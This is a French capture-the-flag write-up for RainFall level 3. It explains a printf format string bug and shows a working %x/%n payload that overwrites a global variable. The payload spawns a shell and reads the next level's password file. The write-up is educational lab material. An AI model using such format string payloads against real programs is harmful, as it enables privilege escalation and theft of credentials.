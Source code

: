 
# Level 3

En ouvrant level3 avec cutter on voit que le main appelle une fonction v qui lit et stock l'entre standard dans un buffer ensuite afficher par un printf qui ne precise pas le type de donner attendue ce qui permet de faire une *format string attack*.Il faut donc réussir a injecter la bonne valeur a cette adresse. La format string attack permet de savoir la position de l'adresse dans la stack. A l'aide des %x on peut alors afficher ces adresses. On entre alors une entree reconnaissable comme `a` qui en hexadecimal donne 61 et on y ajoute des %x pour trouver ca position.
```
level3@RainFall:~$ ./level3
aaaa %x %x %x %x %x %x %x
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
level3@RainFall:~$
```
On voit alors que l'entree est stockée a la 4eme adresse de la stack, ce qui nous permet d'utiliser un parametre de printf : le %n. Ce dernier permet de compter les character le précédant et le stocker dans le paramétre ici m. Donc il suffit de cree un payload qui vas mettre  a la place des `aaaa`  `0x804988c` (m), afficher 60 caractère (64 - 4 pour l'adresse), %4 pour la 4eme postions du printf  `$n` pour stocker le compte dans m.
```
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08' + 'a' * 60 + '%4\$n'" > /tmp/payload
level3@RainFall:~$ cat /tmp/payload - | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```